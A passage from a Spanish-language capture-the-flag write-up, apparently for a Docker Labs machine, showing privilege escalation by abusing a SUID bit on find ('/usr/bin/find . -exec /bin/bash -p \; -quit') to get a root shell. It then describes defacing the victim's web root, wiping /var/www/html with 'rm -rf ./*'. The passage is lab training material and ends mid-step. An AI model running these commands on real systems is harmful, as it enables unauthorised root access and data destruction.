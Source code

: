 aqui vemos algo muy interesante tenemos permisos SUID en el binario find. vamos a buscar en gtfobins que podemos hacer con esto 

![[20250820121555.png]](mirame-images/20250820121555.png)

aqui vemos una via potencial de escalar privilegios con el binario find

# Escalada de privilegios 

vamos a abusar de esos privilegios SUID que tenemos 

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

![[20250820121719.png]](mirame-images/20250820121719.png)

ahí vemos como efectivamente conseguimos escalar a root 

# Extra

como siempre en maquinas de docker labs vamos a dejar nuestra firma esta todo explicado en la maquina chocolateLovers

en resumen tenemos un html creado en nuestra maquina atacante abrimos un puerto http para desde la victima descargar y sustituir el archivo index.html del directorio /var/www/html

en la maquina victima en el directorio /var/www/html haremos 

```bash
rm -rf ./*
```

una vez esta vacía haremos lo siguiente 
